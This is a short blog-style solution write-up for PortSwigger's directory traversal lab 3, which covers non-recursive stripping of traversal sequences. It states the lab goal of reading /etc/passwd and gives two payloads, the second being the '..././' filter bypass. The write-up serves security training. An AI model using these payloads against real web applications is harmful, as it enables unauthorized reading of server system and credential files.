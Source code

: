 ```yaml
---
layout: post
title:  "PortSwigger - Directory Traversal - Lab 3"
date:   2024-06-10 00:00
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [directory-traversal,bscp]
categories: [PortSwigger]
---
```


# Lab 3 - Directory Traversal - File path traversal, traversal sequences stripped non-recursively
><b>Lab Objective:</b>
<br/><br/>
This lab contains a path traversal vulnerability in the display of product images.
The application strips path traversal sequences from the user-supplied filename before using it.<br/><br/>
To solve the lab, retrieve the contents of the `/etc/passwd` file.
<br/>
<br/>
<b>Reference:</b>
<br/>
<a href="https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively">Port Swigger - Lab 3</a>
<br/>
<a href="https://academy.ranakhalil.com/courses/1491236/lectures/44691839">Rana Khalil - Lab 3</a>
<br/>

### Solution
<hr/>

#### 1. Try the payload 

```
../../../../etc
```

![Directory Traversal - Lab 3 - Basic payload](/images/portswigger/DirectoryTraversal/lab3/directory-traversal-lab3-test-payload.png)


#### 2. We'll test to see if the filter removes the file path recursively.

```
..././..././..././..././etc/passwd
```

![Directory Traversal - Lab 3 - Recursive payload](/images/portswigger/DirectoryTraversal/lab3/directory-traversal-lab3-recursive-payload.png)
<hr/>